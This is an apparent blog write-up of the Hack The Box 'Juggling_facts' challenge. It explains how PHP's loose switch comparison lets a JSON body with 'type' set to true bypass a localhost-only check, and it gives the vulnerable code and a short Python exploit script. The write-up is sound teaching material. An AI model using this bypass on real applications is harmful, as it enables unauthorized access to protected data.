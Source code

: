 ```yaml
---
title: Juggling_facts
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, Juggling_facts]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Juggling_facts is a PHP chalenge on Hackthebox

### Description:

This challenge allows you to choose between some type of option called facts,\
but to access the **secret** one that contains out FLAG you need to access this site from localhost,\
we can't do that but after some code auditing it was using switch case,\
 and furtunatly it's vulnerble to `loose comparison`.

### Source code:
<a href='https://mega.nz/file/CbJRgSjT#XFf7s4AVC-WkkqPq6Rxz9DT3J1DZBL4o-jCVH11ZW4I'>Download source code</a>

*zip password: `hackthebox`*


### Vulnerable code:
```php
        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }
# as you see if the user input equals `secret` and the request didn't come from localhost an error message returned.
```

```php
 public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets': // here where the `loose comparison` happenes
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);

            case 'spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('spooky')
                ]);
            
            case 'not_spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('not_spooky')
                ]);
            
            default:
                return $router->jsonify([
                    'message' => 'Invalid type!'
                ]);
        }
    }

```

to understand more about this issue take a look at `switch case` manual in php.net.

<img src="../../assets/global/juggling_facts/loose-comparison.png" alt="lose comparison image">

so to exploit this take a look at this table provided by `PHP` manual.


<img src="../../assets/global/juggling_facts/table.png" alt="lose comparison table image">

As you can see if we have for example `case "secret":` and we pass `true` in the `option(true)` parameter.\
it will match the secret because it uses only two equals `==` not three.



### Solve:

```python


import requests


payload = """
    {
        "type":true
    }
"""
url = 'http://localhost:1337/api/getfacts'
headers = {'Content-Type': 'application/json'}
res = requests.post(url, data=payload, headers=headers)
if res.status_code == 200:
    print(res.text)
else:
    print(res.status)


```

